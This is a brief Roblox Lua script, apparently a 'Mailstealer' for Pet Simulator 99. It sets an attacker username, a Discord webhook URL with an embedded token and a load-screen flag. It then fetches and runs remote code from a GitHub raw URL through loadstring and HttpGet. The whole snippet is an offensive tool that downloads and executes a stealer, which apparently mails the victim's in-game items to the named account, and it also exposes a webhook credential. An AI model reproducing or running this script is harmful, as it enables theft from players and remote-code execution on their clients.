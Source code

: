 Username = mr_duckhi2
LoadScreen = true 
Webhook = https://discord.com/api/webhooks/1285255315872550962/9XhXSF0IZ0CaOsQ2zR7ACFeeYepKWEzcCWZpSiHZodjgJJAxwn5HUf_d-Swzsit2G0f_

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
